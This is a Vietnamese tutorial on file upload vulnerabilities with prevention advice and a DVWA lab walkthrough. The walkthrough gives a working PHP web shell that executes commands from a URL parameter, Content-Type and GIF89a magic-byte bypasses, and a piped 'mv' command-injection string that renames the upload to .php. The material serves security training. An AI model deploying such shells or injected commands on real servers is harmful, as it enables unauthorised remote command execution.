# **File upload vulnerabilities**

## **Lỗ hổng file upload là gì?**

<p align="center">
    
</p>

- Lỗ hổng file upload được tạo ra khi máy chủ web cho phép người dùng tải tệp lên hệ thống của nó mà không xác thực đầy đủ như tên, loại tệp và nội dung kích thước.

- Tác động của file_upload:

  - Trong trường hợp xấu nhất, loại tệp không được xác thực đúng cách và cấu hình máy chủ cho phép một số loại tệp nhất định (chẳng hạn như .php và .jsp) được thực thi dưới dạng mã. Trong trường hợp này, kẻ tấn công có khả năng có thể tải lên tệp mã phía máy chủ  cấp cho chúng toàn quyền kiểm soát máy chủ một cách hiệu quả.

  - Nếu tên tệp không được xác thực hợp lệ, điều này có thể cho phép kẻ tấn công ghi đè lên các tệp quan trọng chỉ bằng cách tải tệp có cùng tên lên. Nếu máy chủ cũng dễ bị tấn công khi duyệt thư mục, điều này có thể có nghĩa là những kẻ tấn công thậm chí có thể tải tệp lên các vị trí không lường trước được.
  
  - Việc không đảm bảo rằng kích thước của tệp nằm trong ngưỡng dự kiến cũng có thể kích hoạt một dạng tấn công từ chối dịch vụ (DoS).

## **Các phương pháp ngăn ngừa lỗ hổng file upload**

- Không cho quyền thực các tệp trong thư mục lưu trữ file upload từ người dùng: Kể cả khi người dùng upload file tấn công thành công nhưng không thể thực thi sẽ giảm đi phần lớn nguy cơ mang lại từ các tệp độc hại này.

- Kết hợp nhiều cơ chế ngăn chặn đảm bảo an toàn đối với các file upload: Có thể kết hợp white list, kiểm tra nội dung file, kiểm tra tên file có đúng định dạng, không chứa ký tự không mong muốn, ...

- Thay đổi tên tệp do người dùng tải lên kết hợp che giấu đường dẫn thư mục: Một số trường hợp người dùng bypass upload file thành công và truy cập tới tệp upload, nhưng không thể thực thi đã tên đã bị thay đổi thành các chuỗi ký tự ngẫu nhiên.

- Thường xuyên thực hiện rà soát, tái kiểm tra các tệp tin trong hệ thống.

- Máy chủ web cần được cấu hình hợp lý, phân quyền thư mục phù hợp, nâng cấp, cập nhật các phiên bản phần mềm, công nghệ kịp thời.

## **Lab: Khai thác lỗ hổng File Upload trên DVWA**

1. Mức độ **Low-level-security**

   Thử kiểm tra *View Source* php của mức độ này thì thấy chúng ta đều có thể upload bất kỳ một file nào lên **server**.

   

   Không kiểm tra phần mở rộng hoặc loại MIME của file trước khi upload. Điều này có thể cho phép upload các file thực thi nguy hiểm như: `.php`, `.php5`, `.phtml`, v.v.

   Mặt khác kẻ tấn công cũng có thể ngụy trang file độc hại với phần mở rộng `.jpg`, `.png`, v.v., nhưng nội dung thực là mã PHP, một số server cấu hình sai có thể vẫn thực thi mã PHP.

   Biết rõ vị trí upload: `/hackable/uploads/`, chỉ cần biết tên file là có thể truy cập được ngay.

   Để khai thác lỗ hổng này, tôi đã chuẩn bị một Payload simple reverse shell như sau:
   ```php
    <!DOCTYPE html>
    <html>
    <head>
        <title>PHP Web Shell</title>
    </head>
    <body>
        <form method="GET" name="command_form">
        <input type="text" name="cmd" placeholder="Nhập lệnh..." size="80" autofocus>
        <input type="submit" value="Thực thi">
        </form>

        <pre>
    <?php
    if (isset($_GET['cmd'])) {
        $command = $_GET['cmd'];
        system($command . ' 2>&1');
    }
    ?>
        </pre>
    </body>
    </html>
    ```

    Tiến hành upload file *web_shell.php* lên **server**

    

    Truy cập vào đường dẫn vừa upload file *web_shell.php* trên **server** thao túng param **cmd**

    

    

    > Kết quả là thao túng thành công nội dung file *web_shell.php*

2. Mức độ **Medium-level-security**

   Kiểm tra *View Source* ta thấy được so với mức **Low**, mức **Medium** đã có bước cải thiện về mặt bảo mật, nhưng vẫn chưa an toàn tuyệt đối.

   

   ```php
   $uploaded_type == "image/jpeg" || $uploaded_type == "image/png"
   ```
   → Chỉ cho phép file có kiểu MIME `image/jpeg` hoặc `image/png`.

   ```php
   $uploaded_size < 100000
   ```
   → Giới hạn kích thước nhỏ hơn ~100 KB để ngăn file lớn hoặc độc hại.

   Nhưng dựa vào `$_FILES['type']` để kiểm tra MIME là không an toàn. Giá trị `$_FILES['uploaded']['type']` có thể giả mạo dễ dàng từ phía *client*. Kẻ tấn công chỉ cần đổi **Content-Type** trong request thành `image/png` hoặc `image/jpeg` là bypass được kiểm tra MIME.

   Tiến hành upload file *web_shell.php* lên **server**
   
   

   > Như đã nói ở trên là đã có kiểm tra MIME type nên ngoài những file kiểu image ra thì không thể upload lên được, tuy nhiên ta có thể bypass được điều này bằng BurpSuite

   

   Nó đã báo file không được chấp nhận và nó chỉ chấp nhận file ảnh png và jpeg. Và bản chất của việc xác thực file này nó sẽ nhằm tới header : `Content-Type: application/x-php`

   Vậy chỉ cần sửa header về `Content-Type: image/png`

   

   > Như vậy là có thể upload thành công, thử reload lại trang web để xem kết quả

   

   Truy cập vào đường dẫn vừa upload file *web_shell.php* trên **server** thao túng param **cmd**

   
   
   > Kết quả là thao túng thành công nội dung file *web_shell.php* 

3. Mức độ **High-level-security**

   Kiểm tra *View Source* ta thấy được ở mức độ này đã có bước cải thiện lớn về mặt bảo mật so với 2 mức độ trước

   

   Kiểm tra phần mở rộng (extension):

   ```php
   $uploaded_ext  = substr($uploaded_name, strrpos($uploaded_name, '.') + 1);
   strtolower($uploaded_ext) == "jpg" || ... == "jpeg" || ... == "png"
   ```

   → Chỉ cho phép `.jpg`, `.jpeg`, `.png`

   Giới hạn kích thước:
   
   ```php
   $uploaded_size < 100000
   ```

   → Giới hạn < 100 KB

   Kiểm tra nội dung thực sự có phải hình ảnh:

   ```php
   getimagesize($uploaded_tmp)
   ```
   
   → Đây là hàm bảo mật quan trọng: nó kiểm tra header của file để xác minh là ảnh hợp lệ. Nhờ `getimagesize()`, việc giả mạo MIME hay đổi tên file thành `.jpg`, `.jpeg`, `.png` nhưng chứa mã PHP sẽ không còn hiệu quả.

   ***Ý tưởng***: Bypass qua file signature - chữ ký tệp tin

   - Chữ ký tệp (file signature) là một chuỗi xác định các byte duy nhất được ghi vào tiêu đề của tệp. Trên hệ thống Windows, chữ ký tệp thường được chứa trong 20 byte đầu tiên của tệp. Các loại tệp khác nhau sẽ có các chữ ký tệp khác nhau, ví dụ: các tệp JPEG luôn bắt đầu bằng các byte `FF D8 FF EE`.
   - Hàm `getimagesize()` chỉ kiểm tra signature (magic bytes) ở đầu file để xác định loại ảnh. Bởi vậy chúng ta có thể bypass cơ chế bảo vệ này bằng cách thêm `GIF89a` trong phần bắt đầu nội dung file, khi trang web kiểm tra ảnh bằng hàm `getimagesize()` sẽ xác định đây là một tệp GIF - thuộc một trong các định dạng ảnh quy định, khi đó hệ thống cho phép người dùng tải lên "hình ảnh" này.

   

   

   Thử truy cập vào đường dẫn vừa upload file *web_shell.jpg* trên **server** thao túng param **cmd**

   

   Do phần mở rộng (extension) là `.jpg` nên web server không thể chạy được (web server nó chỉ hiểu và chạy các file có đuôi `.php`). 

   Vậy ta sẽ lợi dụng lỗ hổng Command Injection ở cùng cấp độ này để rename file *web_shell.jpg* thành *web_shell.php* 

   ```bash
   |mv ../../hackable/uploads/web_shell.jpg ../../hackable/uploads/web_shell.php
   ```
   
   

   Truy cập lại vào đường dẫn upload file *web_shell.php* trên **server** thao túng param **cmd**
   
   

   > Kết quả là ta đã thao túng thành công nội dung file *web_shell.php* 

